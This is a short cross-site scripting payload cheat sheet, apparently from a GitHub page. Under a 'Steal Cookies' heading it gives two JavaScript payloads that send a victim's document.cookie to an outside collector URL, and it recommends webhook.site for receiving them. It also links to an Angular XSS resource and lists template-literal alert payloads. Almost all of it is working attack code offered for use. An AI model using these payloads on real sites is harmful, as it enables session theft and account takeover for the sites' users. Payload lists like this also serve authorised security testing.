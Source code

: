 **webhook.site is useful**
# Steal Cookies
## Basic
```javascript
<script>document.write('<img src="[URL]?c='+document.cookie+'"/>'); </script>
```

## Onmouseover
```javascript
onmouseover=eval(var i=new Image;i.src="[URL]/?"+document.cookie;)
```

# AngularJS
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md

# Template Literal Payloads
```javascript
alert(1)
${alert(1)}
alert(1);
${alert(1)};
`alert(1)`
`${alert(1)}`
`${alert(1)}`;
alert(1);
${alert(1)}/*
```

